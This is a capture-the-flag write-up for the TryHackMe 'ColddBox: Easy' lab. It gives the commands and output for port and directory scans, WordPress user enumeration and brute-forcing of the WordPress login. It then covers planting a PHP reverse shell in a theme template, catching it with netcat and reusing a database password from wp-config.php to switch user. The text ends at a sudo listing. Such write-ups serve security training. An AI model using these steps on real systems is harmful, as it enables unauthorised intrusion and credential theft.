







# Try Hack Me Writeup - ColddBox: Easy

TryHackMe room: <https://tryhackme.com/room/colddboxeasy>

An easy level machine with multiple ways to escalate privileges.


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Answer the questions](#answer-the-questions)
- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration of ports and services](#enumeration-of-ports-and-services)
- [Enumeration of the web server](#enumeration-of-the-web-server)
- [Enumeration with WPScan](#enumeration-with-wpscan)
- [Looking at the website](#looking-at-the-website)
- [Brute forcing with hydra](#brute-forcing-with-hydra)
- [Brute forcing with WPScan](#brute-forcing-with-wpscan)
- [Installing a reverse shell in WordPress](#installing-a-reverse-shell-in-wordpress)
- [Horizontal privilege escalating](#horizontal-privilege-escalating)
- [Vertical privilege escalating](#vertical-privilege-escalating)

## Answer the questions

user.txt

HINT: Provide the flag in its encoded format

    Rm**********ZXMsIHByaW1lciBuaXZlbCBjb25z**********==

root.txt

HINT: Provide the flag in its encoded format

    wq**********YWRlcywgbcOhcXVpbmEgY29t**********E=

## Setup

```commandline
$ export IP_HOST=10.8.208.30
$ export IP_TARGET=10.10.86.15
$ export WRITEUP="$HOME/Documents/THM/colddboxeasy/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

- `nmap`
- `gobuster`
- `wpscan`
- `Burp Suite`
- `hydra`

## Enumeration of ports and services

As most of the time, `nmap` to enumerate the port. My first scan, without scanning all ports (`-p-`) only popped up the port `80`. Was very septic, so I ran a second scan on all ports which revealed OpenSSH running on the unusual port, `4512`.

````commandline
# nmap -sCV -p- -oN nmap_scan $IP_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 21:46 CEST
Nmap scan report for 10.10.86.15
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.70 seconds
```` 

## Enumeration of the web server

Gobuster scan:

````commandline
$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP_TARGET -t 75
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.15
[+] Method:                  GET
[+] Threads:                 75
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/28 21:40:17 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.86.15/wp-content/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.86.15/wp-includes/]
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.86.15/wp-admin/]   
/hidden               (Status: 301) [Size: 311] [--> http://10.10.86.15/hidden/]     
/server-status        (Status: 403) [Size: 276]                                      
                                                                                     
===============================================================
2021/08/28 21:41:51 Finished
===============================================================
````

In <http://10.10.86.15/hidden/> we are greated with a message:



Ok, so we have 3 potential usernames. Need to save them!

````commandline
echo "*****" >> usernames.txt
echo "****" >> usernames.txt
echo "******" >> usernames.txt
````

## Enumeration with WPScan

````commandline
$ wpscan --url http://$IP_TARGET  -e vp,vt,u 
_______________________________________________________________ 
         __          _______   _____
         \ \        / /  __ \ / ____|                                          
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ® 
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|                                                                                         
             
         WordPress Security Scanner by the WPScan Team                                                                                                                                                                                                                                                                       
                         Version 3.8.18                                        
       Sponsored by Automattic - https://automattic.com/                                                                                                      
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart                                                                                                        
_______________________________________________________________                                                                                                                     
[+] URL: http://10.10.86.15/ [10.10.86.15]
[+] Started: Sat Aug 28 21:50:12 2021

Interesting Finding(s):
[+] Headers                                                                    
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)                                       
 | Confidence: 100%
[+] XML-RPC seems to be enabled: http://10.10.86.15/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%                                                            
 | References:                                                                 
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/  
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://10.10.86.15/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%                                                            
[+] The external WP-Cron seems to be enabled: http://10.10.86.15/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%                                                             
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299  
[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.86.15/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.86.15/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 [+] WordPress theme in use: twentyfifteen                                      
 | Location: http://10.10.86.15/wp-content/themes/twentyfifteen/
 | Last Updated: 2021-07-22T00:00:00.000Z                                      
 | Readme: http://10.10.86.15/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://10.10.86.15/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen                                                  
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team                                                  
 | Author URI: https://wordpress.org/
 | Found By: Css Style In Homepage (Passive Detection)
 | Version: 1.0 (80% confidence)                                               
 | Found By: Style (Passive Detection)                                         
 |  - http://10.10.86.15/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'
[+] Enumerating Vulnerable Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:02 <=============================================================================================================> (357 / 357) 100.00% Time: 00:00:02                                                                                                                                
[+] Checking Theme Versions (via Passive and Aggressive Methods)
[i] No themes Found.
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:
[+] the **** in person                                                         
 | Found By: Rss Generator (Passive Detection)
[+] ****                                                                       
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
[+] ******                                                                     
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
[+] *****                                                                      
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Sat Aug 28 21:50:19 2021                                         
[+] Requests Done: 416                                                         
[+] Cached Requests: 10                                                        
[+] Data Sent: 105.901 KB                                                      
[+] Data Received: 313.639 KB                                                  
[+] Memory used: 221.32 MB                                                     
[+] Elapsed time: 00:00:06
````

We have found 4 usernames with the `wpscan`. 3 of them we already have. So let's save this new one too.

````commandline
echo "****" >> usernames.txt
````

## Looking at the website

Nothing fancy to see there. Also nothing to find in the HTML source code.



Looking at the source code of that home page, nothing suspect found. There's only one post and one comment. Looks like we found maybe another username. On this page also nothing found in the source code.



Saving this new username:

````commandline
echo "****" >> usernames.txt
````

## Brute forcing with hydra

Brute forcing with `hydra`. For this, we first need to make use of `Burp Suite` to intercept the login form and to know how we can pass our information to `hydra`.



What is in our interest is the: `log=testuser&pwd=testpass&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1`

And the error message displayed after a bad login: `ERROR: Invalid username. Lost your password?`



We have a file with all our potential usernames we found so far. So let's bruteforce on all the different usernames.

````commandline
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $IP_TARGET http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:'ERROR: Invalid username. Lost your password?'" -V
````

This took ages for some reasons I do not know. 16 attempts per minutes. This go lasts forever at this speed! I'm not planning to cross my arms and wait a few hours until this finish. Like this is a `WordPress` site, it's maybe more practical to make use of the build in brute force of `wpscan`. So I cancelled this `hydra` bruteforce attack.

## Brute forcing with WPScan

same principe, as we have a list of potential usernames, let's make use of it.

````commandline
wpscan --url http://$IP_TARGET -U usernames.txt -P /usr/share/wordlists/rockyou.txt
````

After something like 15 minutes, `wpscan` found the password for user *****. So I stopped this brute force attack as this is a CTF and most of the time, this is about one low privilege user account we need to attack. Can run it again later if needed.

````commandline
[+] Performing password attack on Wp Login against 6 user/s
[SUCCESS] - ***** / **********                                                                                                                                                                                                                                                                                               
^Cying hugo / roberta Time: 00:17:06 <   > (10548 / 86067575)  0.01%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: *****, Password: **********

[!] No WPScan API Token given, as a result vulnerability data has not been output.         > (10554 / 86067575)  0.01%  ETA: ??:??:??
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Aug 28 23:23:38 2021
[+] Requests Done: 10694
[+] Cached Requests: 38
[+] Data Sent: 4.989 MB
[+] Data Received: 38.521 MB
[+] Memory used: 272.586 MB
[+] Elapsed time: 00:17:11

Scan Aborted: Canceled by User
````

## Installing a reverse shell in WordPress

Once logged in, we can make use of the `WordPress` fancy `404 Template` features which allows embedding PHP code. `WordPress` is so insecure by allowing this by default. So this is easy, we can make use of this to embed our `PHP` web shell in that template.

For this in `Appearance` > `Editor`. Then click on the `404 templates`.



On the right side, we see the different templates we can modify. Okay, in this screenshot, I already had clicked on it and it already loaded. You see that with the content of the big input field and the label of it.



We can make use of the `/usr/share/webshells/php/php-reverse-shell.php` which is available by default on `Kali`. But we need to be careful. Do not copy the whole content of that `php-reverse-shell.php` file and paste that like is in between the existing `PHP` code of that `404.php` template file. We need to mind the opening `PHP` tag. 

The easiest way is to copy the whole content of the `php-reverse-shell.php` and pasting it before the first line of that `404.php` file. Then I add plenty of new lines after that to separate both contents, in case if I need to clean that up later. Also, an important point, is to adjust the IP and port to match our host computer. Finally, press the `Update File` button.

Now we need to set a listener on our host machine.

````commandline
nc -lnvp 4444
````

Now we can point our browser to some random non-existent page on the `WordPress` site and our reverse shell will execute and connect to the host machine. Something like <http://10.10.86.15/?p=9999>. Not <http://10.10.86.15/random< as this will trigger the `Apache 404` and not the `WordPress` one.

## Horizontal privilege escalating

We are now connected!

````commandline
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.86.15] 40506
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:32:31 up  1:56,  0 users,  load average: 0.00, 0.63, 1.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$
````

`Python` is not installed on the target machine, using `python3` then to stabilise the shell. Wanted to grab the `user.txt` flag. But no luck, it's only readable by user `*****`. Tried also to switch to user `*****`, but he does not use the same password as on the `WordPress` website.

````commandline
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ TERM=xterm
TERM=xterm
www-data@ColddBox-Easy:/$ ^Z
[1]+  Stopped                 nc -nlvp 4444
┌──(itchy㉿scratchy)-[~/Documents/THM/colddboxeasy]
└─$ stty raw -echo; fg
nc -nlvp 4444

www-data@ColddBox-Easy:/$

www-data@ColddBox-Easy:/$ cd /home/c0ldd/
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt 
cat: user.txt: Permission denied
www-data@ColddBox-Easy:/home/c0ldd$ ls -lah
total 24K
drwxr-xr-x 3 c0ldd c0ldd 4.0K Oct 19  2020 .
drwxr-xr-x 3 root  root  4.0K Sep 24  2020 ..
-rw------- 1 c0ldd c0ldd    0 Oct 19  2020 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 Sep 24  2020 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd    0 Oct 14  2020 .bashrc
drwx------ 2 c0ldd c0ldd 4.0K Sep 24  2020 .cache
-rw-r--r-- 1 c0ldd c0ldd  655 Sep 24  2020 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 Sep 24  2020 .sudo_as_admin_successful
-rw-rw---- 1 c0ldd c0ldd   53 Sep 24  2020 user.txt
www-data@ColddBox-Easy:/home/c0ldd$ su c0ldd
Password: 
su: Authentication failure
www-data@ColddBox-Easy:/home/c0ldd$ su c0ldd
Password: 
su: Authentication failure
www-data@ColddBox-Easy:/home/c0ldd$
````

As the password for user `*****` on `WordPress` is not that same as his system password. We need to find another way. Usually, glitches happens when user reuse their passwords. This user did not reuse his `WordPress` password for his system account. But maybe we can find something else in the configuration files of the `WordPress` website.

````commandline
www-data@ColddBox-Easy:/var/www/html$ ls
hidden           wp-blog-header.php    wp-includes        wp-signup.php
index.php        wp-comments-post.php  wp-links-opml.php  wp-trackback.php
license.txt      wp-config-sample.php  wp-load.php        xmlrpc.php
readme.html      wp-config.php         wp-login.php
wp-activate.php  wp-content            wp-mail.php
wp-admin         wp-cron.php           wp-settings.php
````

And looking in the `wp-config.php`, we can see the database password.

````commandline
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep DB_PASSWORD
define('DB_PASSWORD', '*************');
````

And with this password, we can finally log in with user `*****`.

````commandline
www-data@ColddBox-Easy:/var/www/html$ su *****
Password: 
*****@ColddBox-Easy:/var/www/html$ cd /home/c0ldd/
*****@ColddBox-Easy:~$ cat user.txt 
Rm**********ZXMsIHByaW1lciBuaXZlbCBjb25z**********==
````

## Vertical privilege escalating

Looking now how we can escalate the user privileges. I first tend to look with `sudo`, as this is a classic. But shoot! This is spanish and the message confuse me so much. I don't master spanish except for ordering "2 cervesas por favor". The day after, "agua sun gaz por favor". And even then, not sure about the spelling at all.

````commandline
*****@ColddBox-Easy:~$ sudo -l
[sudo] password for *****: 
Coincidiendo entradas por defecto para ***** en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

